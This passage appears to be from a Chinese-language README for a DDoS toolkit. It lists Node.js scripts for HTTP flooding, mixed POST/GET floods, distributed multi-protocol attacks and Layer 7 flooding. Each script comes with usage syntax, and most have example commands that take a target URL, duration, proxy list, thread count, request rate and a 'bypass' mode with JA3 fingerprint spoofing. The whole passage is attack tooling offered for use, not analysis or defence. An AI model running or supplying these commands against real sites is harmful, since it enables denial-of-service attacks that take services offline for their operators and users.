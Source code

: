
### 2. http-flood.js
HTTP 洪水攻击，大流量请求攻击，支持 JA3 指纹模拟。

```bash
node http-flood.js <URL> <时间> <代理文件> <线程> <速率> <模式> <查询>
```

**示例:**
```bash
node http-flood.js https://target.com 120 ../../config/proxies/global.txt 20 100 bypass false
```

---

### 3. http-methods.js
多种 HTTP 方法测试，支持 GET/POST/PUT/DELETE。

```bash
node http-methods.js <URL> <时间> <代理文件> <线程> <方法>
```

**示例:**
```bash
node http-methods.js https://target.com 60 ../../config/proxies/global.txt 10 GET
```

---

### 4. post-get-attack.js
POST/GET 混合攻击，支持自定义请求头和参数。

```bash
node post-get-attack.js <方法> <URL> <时间> <速率> <线程> <代理文件> --http <版本>
```

**示例:**
```bash
node post-get-attack.js POST https://target.com 60 100 10 ../../config/proxies/global.txt --http 2
```

---

### 5. distributed-attack.js
分布式攻击，多协议混合。

```bash
node distributed-attack.js <URL> <时间> <速率> <线程> <代理文件>
```

---

### 6. layer7-flooder.js
Layer 7 泛洪攻击。

```bash
node layer7-flooder.js <URL> <时间> <速率> <线程> <代理文件>
```

---
